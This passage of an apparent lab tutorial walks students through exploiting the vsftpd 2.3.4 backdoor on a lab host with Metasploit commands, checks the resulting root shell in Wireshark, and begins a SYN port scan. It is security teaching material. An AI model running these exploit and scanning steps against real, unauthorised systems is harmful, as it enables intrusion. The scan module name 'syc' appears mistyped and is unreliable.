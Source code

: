 1) Hover over the sploit node and get the IP address of the host. If this doesn't work you can always click into the terminal for that node and use the **`ifconfig`** command to find the IP address for the machine (should be 10.100.200.x)
2) The first thing we would want to do is see what is open on the target system. Use the previous commands to scan the **sploit** box.

## Launch Metasploit on Kali

1) Start the Metasploit console as root on your Kali Linux VM using the command: `sudo msfconsole` The **`msf >`** will appear shortly

### VSFTP Exploit

1) Search the VSFTP exploit using **`search vsftpd`**. Note the path to the exploit: `/exploit/unix/ftp/vsftpd_234_backdoor`
2) Use the exploit with **`use exploit/unix/ftp/vsftpd_234_backdoor`** and note the console prompt change to indicate you are using the module (remember tab complete is your friend)
3) Lets set some variables required for this module like **RHOST**. Use the command **`set RHOST 10.100.200.x`** where the IP address is the target host sploit's IP address
4) Launch the exploit with **`exploit`**

Did the exploit start? If it did, did it succeed? Was the exploit able to create a session? Since we already know that this server has this vulnerability we need to figure out why we are unable to establish a session. Lets dig a little deeper with Wireshark.

![Failed Exploit Attempt](https://cga.sfo2.digitaloceanspaces.com/cns/images/Screenshot%20from%202020-02-24%2017-34-00.png)

In my example you can see that my failed attempt is marked by a reset

![Working](https://cga.sfo2.digitaloceanspaces.com/cns/images/Screenshot%20from%202020-02-24%2017-37-08.png)

If at first you don't succeed try, try again. Once we get the timing to work out you an see that I issue a command to find out what user I am on the system by issuing the command **`whoami`**. You can see in in the packet capture

![whoami](https://cga.sfo2.digitaloceanspaces.com/cns/images/Screenshot%20from%202020-02-24%2017-36-49.png)

Finally we can look at the capture of the response telling us who we are logged into the shell as! **ROOT**

![I AM ROOT](https://cga.sfo2.digitaloceanspaces.com/cns/images/Screenshot%20from%202020-02-24%2017-39-45.png)

![I AM GROOT](https://external-preview.redd.it/pE7JvUfre09sQBtsRp1uenw0a7Rb15bAQfJ1A5dkw2M.png?auto=webp&s=ef0f97c45a4ddfa176e287bf8ac47a0104bfd7f4)

### Scanning with Metasploit

We are going to be starting a scan with Metasploit and issuing a command that does not require the same 3 way handshake that nmap did. To do this we are going to issue a **SYN** scan which means we are not going to complete the 3 way handshake but send a SYN packet and see if we will get **ACK** or **RST** packages back to determine the state of the port and gather the same data as the **nmap** scan. To do this we are going to use a module in Metasploit under **`auxiliary/scanner/portscan/syc`**
